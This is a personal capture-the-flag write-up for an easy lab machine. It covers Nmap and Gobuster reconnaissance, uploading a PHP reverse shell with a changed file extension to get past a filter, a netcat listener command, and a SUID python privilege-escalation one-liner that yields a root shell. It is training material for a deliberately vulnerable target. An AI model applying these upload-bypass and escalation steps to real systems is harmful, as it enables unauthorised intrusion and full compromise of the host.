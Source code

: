 - - - 
created : 17-07-2025 

Tags : #easy  
- - - 
# Objective

Just root the machine .

# Recon
## Nmap

We can use [Nmap](../../3%20-%20Tags/Hacking%20Tools/Nmap.md) to scan the machine IP :

```
    80/tcp open http  
    22/tcp open ssh
```
# Enumeration 
## Gobuster

We can use [Gobuster](../../3%20-%20Tags/Hacking%20Tools/Gobuster.md) to enumerate directories :

```
    /panel
```

# Exploit
## Reverse shell

We can download the reverse shell from here https://github.com/pentestmonkey/php-reverse-shell

notice that we have to modify the [IP address](../../3%20-%20Tags/Hacking%20Concepts/IP%20address.md) in the code and target our [Vulnerable Machine](../../3%20-%20Tags/Hacking%20Concepts/Vulnerable%20Machine.md) :


<img src="../../2%20-%20Resources/Others/Flameshots/c11a62a3346b0561b978ba29613dd5e2.png" alt="c11a62a3346b0561b978ba29613dd5e2.png" width="261" height="153" class="jop-noMdConv">

## Obtaining first access

visiting /panel we can upload the [Reverse Shell](../../3%20-%20Tags/Hacking%20Concepts/Reverse%20Shell.md), after a few tries modifing the .php extension to fit the php version supported (**php5**)

but first we have to setup a listener on the $port you have in the shell code , i didn't change the code and execute [Netcat](../../3%20-%20Tags/Hacking%20Tools/Netcat.md) like this

         `nc -lvnp 1234`

after that we can upload our Shell on /panel and wait for the connection, then `find / -type f -name user.txt 2> /dev/null` to find the user.txt file containing the first [Flag](../../3%20-%20Tags/Hacking%20Concepts/Flag.md) .

# Privilege Escalation

For [Privilege Escalation](../../3%20-%20Tags/Hacking%20Concepts/Privilege%20Escalation.md) we can find SUID permissions for the user `$ find / -user root -perm /4000`  and find `/usr/bin/python`

we can go to  https://gtfobins.github.io/  and get a [Python](../../3%20-%20Tags/Programming%20Languages/Python.md) command.

then on the Target Machine we execute  `python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`  (the command for escalation)

confirm with `whoami` >> `root` and find the flag `find / -type f -name root.txt`  >>  `cat root.txt`

Rooted !!

